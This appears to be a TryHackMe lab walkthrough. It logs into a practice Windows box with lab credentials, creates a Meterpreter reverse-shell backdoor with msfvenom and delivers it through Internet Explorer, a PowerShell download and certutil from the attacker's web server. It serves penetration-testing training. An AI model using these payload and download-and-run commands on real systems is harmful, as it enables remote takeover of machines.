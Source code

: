 `tryhackme:tryhackme123`

I used Remmina to RDP into the machine. If you don't have it installed, you can install it using the following command: `sudo apt-get install remmina`

![](https://i.imgur.com/DD9cjnv.png)

Create a Metasploit backdoor using msfvenom. To create the backdoor use the below syntax:

`msfvenom -p windows/meterpreter/reverse_tcp <LHOST> <LPORT> -f exe > backdoor.exe`

where LHOST is your IP and LPORT is he port Metasploit will listen for connections.

![](https://i.imgur.com/FR0EPbY.png)

Create a Metasploit listener.

![](https://i.imgur.com/uj2ubTP.png)

Using python create a webserver (python -m SimpleHTTPServer 80) and deliver (download) the backdoor to the target system you previously logged in.

**Delivery method I**

But first, go to Internet Explorer settings and choose "Internet Options".

![](https://i.imgur.com/JcF2ItF.png)

Click on the "Security" tab, select "Trusted Sites" and then click on the "Sites" button. Fill the "Add this website to the zone" field with your IP address and click the "Add" button.

![](https://i.imgur.com/Ma7KUdF.png)

After adding your IP to the trusted websites you can close that tab, and then click OK.

Now, you should be able to download your backdoor.

![](https://i.imgur.com/4CDggt5.png)

By pressing on the "Run" button the backdoor will be executed by the system and a connection to Metasploit will be created.

**Delivery method II**

Another delivery method would be using Powershell. Open a Powershell window and download the backdoor using the following command:

`Invoke-WebRequest http://10.x.x.x/backdoor.exe`

![](https://i.imgur.com/RG0Wdbg.png)

To execute the backdoor type `.\backdoor.exe`

**Delivery method III**

You can use certutil to download the backdoor. You can use certutil from both windows command line and Powershell commandline. The command to download the file is:

`certutil -urlcache -split -f http://10.x.x.x/backdoor.exe`
